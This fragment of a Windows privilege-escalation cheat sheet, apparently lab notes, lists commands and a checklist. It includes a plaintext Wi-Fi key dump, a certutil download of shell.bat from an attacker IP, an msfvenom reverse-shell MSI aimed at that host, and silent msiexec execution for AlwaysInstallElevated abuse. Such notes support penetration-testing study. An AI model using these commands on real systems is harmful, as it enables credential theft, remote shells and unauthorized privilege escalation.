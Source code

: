 | `netsh wlan show profile ilfreight_corp key=clear`                                                                        | Retrieve saved wireless passwords                  |                                             |     |

## Other Commands

| **Command**                                                                                                 | **Description**                                    |
| ----------------------------------------------------------------------------------------------------------- | -------------------------------------------------- |
| `certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat`                               | Transfer file with certutil                        |
| `certutil -encode file1 encodedfile`                                                                        | Encode file with certutil                          |
| `certutil -decode encodedfile file2`                                                                        | Decode file with certutil                          |
| `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`                                 | Query for always install elevated registry key (1) |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`                                              | Query for always install elevated registry key (2) |
| `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`                        | Generate a malicious MSI package                   |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`                                     | Executing an MSI package from command line         |
| `schtasks /query /fo LIST /v`                                                                               | Enumerate scheduled tasks                          |
| `Get-ScheduledTask \| select TaskName,State`                                                                | Enumerate scheduled tasks with PowerShell          |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\`                                                           | Check permissions on a directory                   |
| `Get-LocalUser`                                                                                             | Check local user description field                 |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description`                                          | Enumerate computer description field               |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`                                                           | Mount VMDK on Linux                                |
| `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`                                               | Mount VHD/VHDX on Linux                            |
| `sudo python2.7 windows-exploit-suggester.py --update`                                                      | Update Windows Exploit Suggester database          |
| `python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` | Running Windows Exploit Suggester                  |

==Checklist==
##### [System Info](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#system-info)

* [ ] Obtain [**System information**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#system-info)
* [ ] Search for **kernel** [**exploits using scripts**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#version-exploits)
* [ ] Use **Google to search** for kernel **exploits**
* [ ] Use **searchsploit to search** for kernel **exploits**
* [ ] Interesting info in [**env vars**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#environment)?
* [ ] Passwords in [**PowerShell history**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#powershell-history)?
* [ ] Interesting info in [**Internet settings**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#internet-settings)?
* [ ] [**Drives**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#drives)?
* [ ] [**WSUS exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#wsus)?
* [ ] [**AlwaysInstallElevated**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/#alwaysinstallelevated)?
